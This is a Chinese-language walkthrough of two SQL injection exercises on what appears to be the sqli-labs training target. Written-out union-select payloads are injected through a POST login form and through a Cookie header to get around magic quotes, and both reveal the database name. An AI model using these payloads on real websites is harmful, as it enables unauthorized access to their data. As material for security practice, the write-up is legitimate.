





# SQL注入靶场案例练习

### Less-11 POST - Error Based - Single quotes- String (基于错误的POST型单引号字符型注入)

**用burpsuit，抓包修改参数**

联合查询union select测试payload

uname=admin' union select 1,2  --+&passwd=admin&submit=Submit

点击提交，通过burp suite抓取到post请求数据包

	

修改并放行

	

于是确认出有两个回显点

	

爆库payload

uname=-admin' union select 1,database() --+&passwd=admin&submit=Submit

通过该sql注入，可以得知该网站所使用的数据库是security

	

### **Less-20** POST - Cookie injections - Uagent field  - Error based (基于错误的cookie头部POST注入)

由于第20关，对post请求的数据进行了魔术引号处理，使得难以进行sql注入，于是可以通过cookie注入尝试绕过魔术引号。

单引号，报错型，cookie型注入。

存在魔术引号

直接cookie注入，进行绕过

Cookie: uname=-admin' union select 1,2,database()--+

使用cookie进行注入

	

于是通过cookie注入可以查看到使用的数据库名字。

